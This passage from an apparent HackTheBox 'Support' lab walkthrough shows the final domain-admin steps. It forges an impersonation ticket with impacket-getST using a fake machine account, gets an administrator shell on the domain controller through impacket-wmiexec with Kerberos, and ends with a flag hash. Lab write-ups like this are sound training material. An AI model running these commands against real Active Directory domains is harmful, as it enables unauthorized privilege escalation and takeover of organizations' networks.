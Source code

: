 
I gave up on Rubeus and tried impacket. First, generate the ticket:

```bash
impacket-getST SUPPORT.HTB/FAKE01:123456 -dc-ip 10.129.227.255 -impersonate ADMINISTRATOR -spn www/DC.SUPPORT.HTB
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_12_impa.png" width="90%"/>
</p>

Now export the ticket to current session and launch the attack. Make sure to have the DC.SUPPORT.HTB on the /etc/hosts:

```bash
export KRB5CCNAME=ADMINISTRATOR.ccache
impacket-wmiexec SUPPORT.HTB/ADMINISTRATOR@DC.SUPPORT.HTB -no-pass -k
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/7_0_admin.png" width="90%"/>
</p>

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/7_1_root.png" width="70%"/>
</p>

``` 1d00ed25fd6aad8a70fe85394fa4e506 ```


